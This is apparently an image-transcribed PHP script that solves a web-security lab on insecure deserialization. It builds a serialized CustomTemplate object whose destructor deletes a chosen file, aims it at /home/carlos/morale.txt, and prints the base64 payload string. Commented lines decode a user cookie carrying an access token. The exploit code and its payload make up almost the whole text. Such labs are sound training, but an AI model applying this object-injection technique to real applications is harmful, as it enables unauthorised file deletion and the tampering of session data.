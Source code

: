 ```
    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}


class User {
   public  $username; 
   public  $access_token;
   function __construct($username, $access_token){
      $this->username = $username;
      $this->access_token = $access_token;
   }

}

// $poc = new User("viewner", " ob4nfdfe5htvwuykpn0zykbvjh645uxw");

$poc = new CustomTemplate("/home/carlos/morale.txt");


$poc = serialize($poc);

echo base64_encode($poc);

// $a= "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ3bjYxYjFhMmphZWpoODZsbGxqaDc3NWo2eG9qNGdveCI7fQ%3d%3d";

// $a = base64_decode($a);

// $b= unserialize($a);

// print_r($b);

?>
---> TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzQ6IgBDdXN0b21UZW1wbGF0ZQB0ZW1wbGF0ZV9maWxlX3BhdGgiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0IjtzOjMwOiIAQ3VzdG9tVGVtcGxhdGUAbG9ja19maWxlX3BhdGgiO3M6Mjg6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0LmxvY2siO30=
```
